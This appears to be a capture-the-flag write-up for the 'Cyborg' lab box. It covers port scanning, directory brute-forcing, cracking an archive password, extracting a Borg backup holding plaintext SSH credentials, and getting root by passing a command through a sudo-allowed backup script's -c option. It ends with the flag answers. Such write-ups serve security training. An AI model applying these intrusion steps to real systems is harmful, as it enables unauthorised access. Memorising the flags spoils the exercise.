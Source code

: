# Cyborg

A box involving encrypted archives, source code analysis and more.

```
ip = 10.10.141.201
```

## Nmap

```
nmap -sC -sV -oN initial.log 10.10.141.201
```

>22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
>
>80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

## Task 1.

Compromise the machine and read the user.txt and root.txt

```
nikto -h http://10.10.141.201 | tee nikto.log
```

Using **gobuster** I'm going to scan `http://10.10.141.201 /` for hidden directories or files using a wordlist and checks specified file extensions like php or txt.

```
gobuster dir -u http://10.10.141.201 / -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,sh,cgi,html,css,js,py
```

With this information I access `http://10.10.141.201/admin/index.html` to download a ZIP file. Also, I enter `http://10.10.141.201/etc/` where I obtain a password encrypted file that I can crack with JohnTheRipper (`music_archive:squidward`). Looking in the file I find a file that contains:

>This is a Borg Backup repository.
>
>See https://borgbackup.readthedocs.io/

Looking at the documentation I see that the zip contains a Borg Backup. To obtain it I use:

```
borg list final_archive/
Enter passphrase for key final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]


borg extract final_archive/::music_archive
```

With that commands I obtain the filesystem. However with this I dont have the required information. In the `Documents` folder I find a file whose contents are:

>Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!
>
>alex:S3cretP@s3

With those credentials I can connect with the machine via ssh. Once in the machine I find the file `user.txt` with the first flag. To find the second flag I have to obtain root privileges. In order to achieve this task I use `linpeas`. I cannot obtain a root terminal but I find this:

```
sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
 
This means I can execute `/etc/mp3backups/backup.sh` as a superuser. Upon reviewing the script's code, I discovered that if a command is provided with the -c option, it will also be executed. Therefore, I ran:

```
sudo ./backup.sh -c 'cat /root/root.txt'

...

flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

### Questions

1. Scan the machine, how many ports are open?
    >2
2. What service is running on port 22?
    >ssh
3. What service is running on port 80?
    >http
4. What is the user.txt flag?
    >flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
5. What is the root.txt flag?
    >flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}